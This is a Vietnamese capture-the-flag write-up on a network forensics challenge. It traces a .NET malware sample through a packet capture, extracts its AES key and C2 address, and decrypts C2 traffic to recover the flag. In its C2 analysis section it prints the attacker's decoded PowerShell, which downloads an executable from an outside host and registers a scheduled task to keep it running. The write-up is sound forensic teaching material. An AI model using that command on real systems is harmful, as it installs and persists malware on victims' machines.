










# Challenge Data Siege

## 1. Đầu vào challenge

Đầu vào challenge cung cấp file `pcap`, mở bằng Wireshark và xem phần statistic trước để biết hướng tìm.



Thử dùng filter `http` trước.



Thấy được các request `GET`, thử đọc TCP stream của request đầu.



Request này đang tải file `aQ4caZ.exe`, vậy giờ cần export file đó ra để tiếp tục phân tích.

## 2. Phân tích file thực thi tải xuống

Trước tiên tìm thấy 2 hàm `encrypt` và `decrypt`.





- `Encrypt`: nhận chuỗi rồi mã hóa thành base64 ciphertext.
- `Decrypt`: nhận base64 ciphertext rồi giải mã ngược lại thành chuỗi.

Trong đó, hai hàm này dùng:

- `password/key material`: `Constantes.EncryptKey`
- `salt` cố định: mảng byte 13 phần tử

Mảng byte đó là:

```text
86, 101, 114, 121, 95, 83, 51, 99, 114, 51, 116, 95, 83
```

Đổi sang ASCII sẽ là:

```text
Very_S3cr3t_S
```

Sau khi tra cứu thêm thì biết được rằng `Rfc2898DeriveBytes` trong .NET là cách triển khai thuật toán **PBKDF2**. Thuật toán này không dùng trực tiếp mật khẩu làm khóa AES mà sẽ kết hợp mật khẩu với `salt`, sau đó băm lặp lại nhiều lần để dẫn xuất ra khóa và IV.



## 3. Tìm khóa và cấu hình C2

Tiếp tục tìm key trong class `Constantes`.



Biết được malware được cấu hình kết nối tới máy chủ C2 có địa chỉ `10.10.10.21` qua cổng `1234`. Đồng thời, trong class cấu hình cũng lộ ra giá trị `_encryptKey = "VYAemVeO3zUDTL6N62kVA"`.

Vậy giờ sử dụng filter:

```text
ip.addr == 10.10.10.21 && tcp.port == 1234
```

rồi đọc TCP stream.



Thấy được 1 đoạn chạy command PowerShell, decode đoạn này trước. Thu được:

```powershell
(New-Object System.Net.WebClient).DownloadFile("https://windowsliveupdater.com/4fva.exe", "C:\Users\svc01\AppData\Roaming\4fva.exe")

$action = New-ScheduledTaskAction -Execute "C:\Users\svc01\AppData\Roaming\4fva.exe"

$trigger = New-ScheduledTaskTrigger -Daily -At 2:00AM

$settings = New-ScheduledTaskSettingsSet


Register-ScheduledTask -TaskName "0r3d_1n_7h3_h34dqu4r73r5}" -Action $action -Trigger $trigger -Settings $settings
```

### Phân tích

```powershell
(New-Object System.Net.WebClient).DownloadFile("https://windowsliveupdater.com/4fva.exe", "C:\Users\svc01\AppData\Roaming\4fva.exe")
```

Tải một file thực thi từ Internet về máy nạn nhân và lưu thành:

```text
C:\Users\svc01\AppData\Roaming\4fva.exe
```

Attacker muốn đưa thêm payload/stage mới vào thư mục `AppData\Roaming` để giấu file chạy nền, và thu được `part3` của flag là:

```text
0r3d_1n_7h3_h34dqu4r73r5}
```

## 4. Giải mã các chuỗi trong traffic

Các chuỗi trong traffic thực chất là ciphertext của AES được mã hóa biểu diễn dưới dạng Base64. Do đó, flow giải mã sẽ là:

```text
base64 string -> base64 decode -> derive key/IV bằng PBKDF2 từ EncryptKey + salt -> AES decrypt -> plaintext
```

Sử dụng script để lấy được plaintext:

```python
import re
import base64
import hashlib
from Crypto.Cipher import AES

data = [
    "1BhuY4/niTopIBHAN6vvmQ==",
    "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",
    "3a42oeqqUlDFRMc0fU2izQ==",
    "G4zEKBYS3iw2EN5dwLm6+/uQktBYty4nNBdsBxIqyb8=",
    "ZKlcDuS6syl4/w1JGgzkYxeaGTSooLkoI62mUeJh4hZgRRytOHq8obQ7o133pBW7BilbKoUuKeTvXi/2fmd4v+gOO/E6A0DGMWiW2+XZ+lkDa97VsbxXAwm0zhunRyBXHuo8TFbQ3wFkFtA3SBFDe+LRYQFB/Kzk/HX/EomfOj2aDYRGYBCHiGS70BiIC/gyNOW6m0xTu1oZx90SCoFel95v+vi8I8rQ1N6Dy/GPMuhcSWAJ8M9Q2N7fVEz92HWYoi8K5Zvge/7REg/5GKT4pu7KnnFCKNrTp9AqUoPuHm0cWy9J6ZxqwuOXTR8LzbwbmXohANtTGso6Dqbih7aai57uVAktF3/uK5nN7EgMSC0ZsUclzPZjm0r4ITE2HtBrRXJ78cUfIbxd+dIDBGts7IuDfjr0qyXuuzw+5o8pvKkTemvTcNXzNQbSWj+5tTxxly0Kgxi5MVT0ecyJfNfdZG0slqYHKaqJCZm6ShfvGRFsglKmenBB274sBdkVqIRtodB8dD1AM1ZQQX1MBMGDeCwFqc+ahch0x375U6Ekmvf2fzCZ/IaHOHBc8p5se1oNMRbIqcJaundh5cuYL/h8p/NPVTK9veu3Qihy310wkjg=",
    "uJ2fWsTba0ORtkn2zNOzNQ==",
    "Hpn7/+8bhbPtNrDOPNmi90fpHYG70U3N1UJbbLuVBPamvpijHsmWE4/C/Xgrzg7v",
    "MVLZZEXaiYxnXr4paESBd7S7kqQMujOq/n6jsr5eBfaDCRSXQMtNa1dLe3iGWvh7qabw+CXRiYtv1VHJNJidUuS5dbMYUK26hJJQJ9crfNBsoaekpIiFxGeZoDM9dIGHSWDHEUuptpB4SIXQZXwdKtL3TAQk/zm+6EXk6xVZEyI0fkymbSGz9fay/vvTLIQhFqVhNnPx30QiLOBtNvGDJzMjKuzngH8Vsv1VhYqKS/vCW2fN2knJRy9RuVyXDzft4FYQRfWCnyGXam+TmI6EKVzEgllOcRlfwit7elWhLgBAnJY/t8AMYHuZSdZE0l7t2MNtm4CRRIdUf9b2v0Z0rxEy7hWWJEkD42OdyVkP8oudjA6w9vqsUkCjKnKw5rXr5XKjzuBwziKeX7K2QkY9x8v5ptrlpO908OPzyPo27xUAY+YrxYubbEpwYyDbVmHETS3Yssgd9IYB1doA0QoI9bYzx1vDdiwtgjoNJlIEnYs=",
    "3BQcww/tA6Mch9bMGZk8uuPzsNLBo8I5vfb3YfHJldljnkES0BVtObZlIkmaryDdqd0me6xCOs+XWWF+PMwNjQ==",
    "zVmhuROwQw02oztmJNCvd2v8wXTNUWmU3zkKDpUBqUON+hKOocQYLG0pOhERLdHDS+yw3KU6RD9Y4LDBjgKeQnjml4XQMYhl6AFyjBOJpA4UEo2fALsqvbU4Doyb/gtg",
    "FdbfR3mrvbcyK6+9WQcR5A==",
    "bsi2k0APOcHI6TMDnO+dBg==",
    "Q2zJpoA5nGWWiB2ec1v0aQ==24.uib3VErvtueXl08f8u4nfQ==24.uib3VErvtueXl08f8u4nfQ==",
    "YdPbtpi8M11upjnkrlr/y5tLDKdQBiPWbkgDSKmFCWusn5GFkosc8AYU2M7C1+xEHdMgJ3is+7WW099YpCIArFhDNKRZxAM9GPawxOMI+w3/oimWm9Y/7pjGbcpXcC+2X1MTla0M2nvzsIKPtGeSku4npe8pPGS+fbxwXOkZ5kfZgaN33Nn+jW61VP49dslxvH47v97udYEHm8IO+f7OhCfzetKiulh3PN4tlzIB5I+PBdtDbOXnxHj+ygGW25xjyNh1Fbm2kweHL+qlFmPPtyapWYZMd85tPmRYBwevpvu9LO2tElYAcmFJwG8xc9lc9ca03ha2rIh3ioSNws9grVwFW3SjdcyqoGhcN8cr0FPgu2Q0OVKMdYprjRdEEeptdcBMybcYhHs9jcNKZu0R/pgiSbCPuONN67uF2Jw/9Ss=YdPbtpi8M11upjnkrlr/y5tLDKdQBiPWbkgDSKmFCWusn5GFkosc8AYU2M7C1+xEHdMgJ3is+7WW099YpCIArFhDNKRZxAM9GPawxOMI+w3/oimWm9Y/7pjGbcpXcC+2X1MTla0M2nvzsIKPtGeSku4npe8pPGS+fbxwXOkZ5kfZgaN33Nn+jW61VP49dslxvH47v97udYEHm8IO+f7OhCfzetKiulh3PN4tlzIB5I+PBdtDbOXnxHj+ygGW25xjyNh1Fbm2kweHL+qlFmPPtyapWYZMd85tPmRYBwevpvu9LO2tElYAcmFJwG8xc9lc9ca03ha2rIh3ioSNws9grVwFW3SjdcyqoGhcN8cr0FPgu2Q0OVKMdYprjRdEEeptdcBMybcYhHs9jcNKZu0R/pgiSbCPuONN67uF2Jw/9Ss=",
    "ghck5X9x6380mB3aBi+AY7QIEnzhNuF/pDMz9iWssDg=",
    "sTRnTjJH0S7yIPUVwWFsNxwMOMxdNiq9OXDRFrCwpPF2UhkfUF0Mw0/YGLpHMCfw",
    "zz2ELWwzZYbeI1idIdhMwLyqZ6yatlXwAFOfNGy5QVg=",
    "AcABkAGEAdABlAHIALgBjAG8AbQAvADQAZgB2AGEALgBlAHgAZQAiACwAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAHMAdgBjADAAMQBcAEEAcABwAEQAYQB0AGEAXABSAG8AYQBtAGkAbgBnAFwANABmAHYAYQAuAGUAeABlACIAKQAKAAoAJABhAGMAdABpAG8AbgAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAQQBjAHQAaQBvAG4AIAAtAEUAeABlAGMAdQB0AGUAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAHMAdgBjADAAMQBcAEEAcABwAEQAYQB0AGEAXABSAG8AYQBtAGkAbgBnAFwANABmAHYAYQAuAGUAeABlACIACgAKACQAdAByAGkAZwBnAGUAcgAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAVAByAGkAZwBnAGUAcgAgAC0ARABhAGkAbAB5ACAALQBBAHQAIAAyADoAMAAwAEEATQAKAAoAJABzAGUAdAB0AGkAbgBnAHMAIAA9ACAATgBlAHcALQBTAGMAaABlAGQAdQBsAGUAZABUAGEAcwBrAFMAZQB0AHQAaQBuAGcAcwBTAGUAdAAKAAoAIwAgADMAdABoACAAZgBsAGEAZwAgAHAAYQByAHQAOgAKAAoAUgBlAGcAaQBzAHQAZQByAC0AUwBjAGgAZQBkAHUAbABlAGQAVABhAHMAawAgAC0AVABhAHMAawBOAGEAbQBlACAAIgAwAHIAMwBkAF8",
    "986ztFYX3Ksf2pHdywqpLg==",
]

keyiv = hashlib.pbkdf2_hmac(
    "sha1",
    b"VYAemVeO3zUDTL6N62kVA",
    b"Very_S3cr3t_S",
    1000,
    48
)
key = keyiv[:32]
iv = keyiv[32:48]

def unpad(x):
    p = x[-1]
    if 1 <= p <= 16 and x.endswith(bytes([p]) * p):
        return x[:-p]
    return x

def dec_aes(s):
    x = base64.b64decode(s)
    x = AES.new(key, AES.MODE_CBC, iv).decrypt(x)
    x = unpad(x)
    for enc in ("cp1252", "latin1", "utf-8"):
        try:
            return x.decode(enc)
        except:
            pass
    return x.decode("latin1", "ignore")

for s in data:
    s = s.strip()

    if "." in s and s.split(".", 1)[0].isdigit():
        s = s.split(".", 1)[1]

    if len(s) % 4 != 0:
        continue

    try:
        print(dec_aes(s))
    except:
        pass
```



Cuối cùng thu được 2 mảnh còn lại của flag trong đó:

- Mảnh 1 là `HTB{c0mmun1c4710n5` được decrypt từ data chiều C2 gửi lệnh xuống máy user.
- Mảnh 2 là `_h45_b33n_r357` được decrypt từ data chiều máy nạn nhân trả kết quả về C2.

## 5. Flag

Flag là:

```text
HTB{c0mmun1c4710n5_h45_b33n_r3570r3d_1n_7h3_h34dqu4r73r5}
```

## 6. Flow


